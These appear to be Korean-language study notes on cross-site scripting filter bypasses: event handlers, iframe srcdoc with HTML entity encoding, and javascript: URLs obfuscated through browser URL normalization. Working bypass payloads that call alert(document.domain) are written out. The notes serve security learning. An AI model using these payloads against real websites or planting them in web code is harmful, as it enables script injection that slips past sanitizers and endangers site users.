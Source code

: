 <br>

+ ```onload``` : 해당 태그가 요청하는 데이터를 로드한 후에 실행, 만약 로드에 실패했다면 실행되지 않음.

+ ```onerror``` : 해당 태그가 요청하는 데이터를 로드하는데 실패할 시 실행

+ ```onfocus``` 
  + input 태그에 커서를 클릭하여 포커스가 되면 실행
  + 일반적으로 autofocus 속성을 이용하거나, URL에 input 태그의 id 속성 값을 입력해 ```e.g http://dreamhack.io/#id``` 자동 포커스 되도록 함.

<br>

+ ```iframe```
  + src
  + ```srcdoc```
    + ```e.g <iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">``` 
    + srcdoc 속성을 이용해 새로운 xss 코드 삽입 시 HTML 속성 내에 들어가기 때문에 HTML Entity Encoding을 통해 필터링을 우회 할 수 있다.
  
<br>

+ ```javascript:```
  + ```<a href="javascript:alert(document.domain)">Click me!</a>```
  + ```<iframe src="javascript:alert(document.domain)">```
  + 브라우저들이 URL을 사용할 때 거치는 과정 중 하나인 정규화 (Normalization)을 이용해 우회
    + 정규화는 동일한 리소스를 나타내는 서로 다른 URL들을 통일된 형태로 변환하는 과정
    + 이 과정에서 ```\x01, \x04, \t```와 같은 특수 문자들이 제거되고, 스키마의 대소문자가 통일
    + ```html
      <a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
      
      <iframe src="\1\4jAVasC\triPT:alert(document.domain)">
      ```
    + ```html 
      <!-- HTML 태그의 속성 내에서는 HTML Entity Encoding을 사용할 수 있다. -->
      
      <a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Click me!</a>
      
      <iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
      ```
    + ```javascript
      // 정규화는 동일한 리소스를 나타내는 서로 다른 URL들을 통일된 형태로 변환하는 과정
      function normalizeURL(url) { 
          return new URL(url, document.baseURI); 
      }
      
      normalizeURL('\4\4jAva\tScRIpT:alert(1)')
      --> "javascript:alert"
      
      normalizeURL('\4\4jAva\tScRIpT:alert(1)').protocol
      --> "javascript:"
      
      normalizeURL('\4\4jAva\tScRIpT:alert(1)').pathname
      --> "alert(1)"
      ```
    + <a href="https://dreamhack.io/forum/qna/2076" target="_blank">dreamhack.io/forum/qna/2076</a>

    + URL에 직접 입력할 때, ```%09```로 입력해줘야 하며 ```%01, %04```는 동작하지 않았다.
